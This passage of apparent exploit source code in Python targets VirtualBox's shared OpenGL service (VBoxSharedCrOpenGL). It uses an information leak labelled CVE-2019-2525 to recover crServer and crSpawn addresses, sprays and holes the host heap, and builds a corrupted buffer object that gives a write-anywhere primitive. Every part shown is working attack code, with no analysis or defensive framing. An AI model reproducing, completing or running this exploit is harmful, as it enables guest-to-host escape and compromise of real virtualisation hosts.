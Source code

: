 ```python
            hgcm_disconnect(leak_client)
        msg = make_leak_msg(0x100000000-0x9b8)
        result = crmsg(client, msg)
        if "\x7f\x00\x00" in result:
            leak = unpack('<Q', result[16:24])[0]
            if (leak%0x1000 == 0x230):
                leak_success = True
                break
    crSpawn = leak - 0xbd20
    return (cr_server, crSpawn)
    
def heapSpray(client):
    buf_ids = []
    spray_ids = []
    msg = nop_msg()
    # make CRVBOXSVCBUFFER_t & pData heapSpray area
    for i in range(120):
		buf_ids.append(alloc_buf(client, 0x20, msg))
    buf_ids = buf_ids[::-1] # reverse, because fastbin is LIFO
    
    # even buf_ids free
    for idx in buf_ids[::2]:
        hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [idx, "A"*0x20, 0])
    
    # fill CRVBOXSVCBUFFER_t free areas
    for i in range(40):
        spray_ids.append(alloc_buf(client, 0x50, msg))
        alloc_buf(client, 0x20, msg)
    
    # make a hole between spray area
    for idx in spray_ids[::-2]:
        hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [idx, "A"*0x20, 0])

def make_corrupt_obj(pData):
    obj = (
        "A"*0x28
        + pack("<Q", 0x35)
        + pack("<I", 0xcafebabe) #uiId
        + pack("<I", 0xffffffff) #uiSize
        + pack("<Q", pData) # table_addr
        )
    return obj

def write_anywhere(addr, data):
    #make corrupt obj
    fake_buffer = make_corrupt_obj(addr)
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xdeadbeef, 0xffffffff, 0, fake_buffer])
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xcafebabe, 0xffffffff, 0, data])

if __name__=='__main__':
    client = hgcm_connect("VBoxSharedCrOpenGL")
    set_version(client) #must use
    
    # Trigger to CVE-2019-2525
    cr_server, crSpawn = leak_address(client)
    crServerDispatchBoundsInfoCR = cr_server+0xae98
    
    print("[*] crServer : " + hex(cr_server))
    print("[*] crSpawn  : " + hex(crSpawn))
    #print("[*] crServerDispatchBoundsInfoCR : " + hex(crServerDispatchBoundsInfoCR))
    
    # heapSpray
    heapSpray(client)
```